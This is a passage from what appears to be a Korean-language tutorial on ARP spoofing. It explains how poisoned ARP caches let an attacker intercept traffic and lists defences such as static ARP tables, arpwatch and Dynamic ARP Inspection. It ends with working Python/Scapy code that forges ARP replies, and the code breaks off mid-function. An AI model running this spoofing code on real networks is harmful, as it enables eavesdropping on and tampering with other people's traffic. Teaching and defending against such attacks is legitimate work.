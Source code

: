       * 희생자 PC의 ARP 캐시: `게이트웨이_IP` -\> `공격자_MAC`
      * 게이트웨이의 ARP 캐시: `희생자_IP` -\> `공격자_MAC`

3.  이후 희생자 PC가 인터넷으로 보내는 모든 데이터(패킷)는 게이트웨이가 아닌 공격자에게 전송됩니다. 마찬가지로 게이트웨이가 희생자 PC로 보내는 데이터도 공격자에게 전달됩니다.

4.  공격자는 중간에서 모든 트래픽을 엿보거나(도청), 데이터를 변조하거나, 연결을 끊어버릴 수 있습니다.

#### ARP 스푸핑 탐지 및 방어

  * **정적 ARP 테이블 사용:** ARP 캐시를 동적으로 업데이트하지 않고, 수동으로 IP-MAC 매핑 정보를 고정하여 사용하는 방법입니다. 관리가 번거롭지만 가장 확실한 방어법입니다.
  * **ARP 스푸핑 탐지 도구:** `arpwatch`와 같은 도구를 사용하여 ARP 캐시 테이블의 비정상적인 변경을 감시하고 관리자에게 알릴 수 있습니다.
  * **네트워크 장비의 보안 기능 활용:** 일부 스위치나 네트워크 장비는 `Dynamic ARP Inspection (DAI)`과 같은 기능을 제공하여 비정상적인 ARP 패킷을 차단합니다.

#### Python을 이용한 ARP 스푸핑 개념 코드 (Scapy 라이브러리)

아래는 유명한 네트워크 패킷 조작 라이브러리인 Scapy를 사용하여 ARP 스푸핑 공격의 개념을 보여주는 Python 코드입니다. **이 코드는 교육 목적으로만 사용해야 하며, 허가받지 않은 네트워크에서 절대 실행해서는 안 됩니다.**

```python
from scapy.all import ARP, Ether, srp, send
import time
import sys

def get_mac(ip):
    """
    주어진 IP 주소의 MAC 주소를 반환합니다.
    """
    arp_request = ARP(pdst=ip)
    broadcast = Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast / arp_request

    # srp 함수는 패킷을 보내고 응답을 받음
    answered_list = srp(arp_request_broadcast, timeout=1, verbose=False)[0]

    if answered_list:
        return answered_list[0][1].hwsrc
    else:
        return None

def spoof(target_ip, spoof_ip):
    """
    대상에게 위조된 ARP 응답을 보내 ARP 캐시를 속입니다.
    """
    target_mac = get_mac(target_ip)
    if not target_mac:
        print(f"[-] Cannot resolve MAC for {target_ip}. Exiting.")
        sys.exit(0)

    # op=2는 ARP Reply를 의미함
    # pdst: 목적지 IP, hwdst: 목적지 MAC, psrc: 출발지 IP (속일 IP)
    packet = ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
    send(packet, verbose=False)

def restore(destination_ip, source_ip):
    """
    ARP 테이블을 원래 상태로 복원합니다.
    """
    destination_mac = get_mac(destination_ip)
    source_mac = get_mac(source_ip)

    if destination_mac and source_mac:
        packet = ARP(op=2, pdst=destination_ip, hwdst=destination_mac, psrc=source_ip, hwsrc=source_mac)
```
